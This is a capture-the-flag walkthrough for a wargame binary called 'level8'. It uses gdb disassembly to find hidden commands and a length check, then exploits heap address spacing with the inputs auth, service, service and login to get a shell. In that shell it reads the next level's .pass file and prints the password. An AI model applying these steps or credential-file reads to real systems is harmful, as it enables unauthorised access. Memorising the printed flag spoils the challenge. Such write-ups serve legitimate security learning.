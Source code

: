 We started the program and observed that it reads from `stdin` and prints `(nil), (nil)`:
```
$ ./level8
(nil), (nil)
```
By disassembling the `main` function, we discovered some interesting strings:
```
(gdb) disass main
[...]
  0x08048581 <+29>:	mov    $0x8048810,%eax      # "auth"
[...]
 0x080485c1 <+93>:	mov    $0x8048819,%eax      # "service"
[...]
0x08048648 <+228>:	mov    $0x804881f,%eax      # "reset"
[...]
0x0804867e <+282>:	mov    $0x8048825,%eax      # "login"
[...]
```
We decided to try entering the discovered strings to see their effect on the program:
```
./level8
(nil), (nil)
auth
0x804a008, (nil)
service
0x804a008, 0x804a018
login
Password:
auth
0x804a028, 0x804a018
auth
0x804a038, 0x804a018
```
When we enter `auth` and `service`, the two addresses update by `0x10` from the last written address.

Using `gdb`, we looked further into the disassembly:
```
gdb> disass main
[...]
   0x08048625 <+193>:	cmp    eax,0x1e
[...]
```

A cmp instruction compares a value with `0x1e` (31 in decimal).

We deduct that making the difference between the addresses auth and service superior or equal to `0x20` (32 in decimal) may exploit the program.
```
./level8
(nil), (nil)
auth
0x804a008, (nil)
service
0x804a008, 0x804a018
service
0x804a008, 0x804a028
login
cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
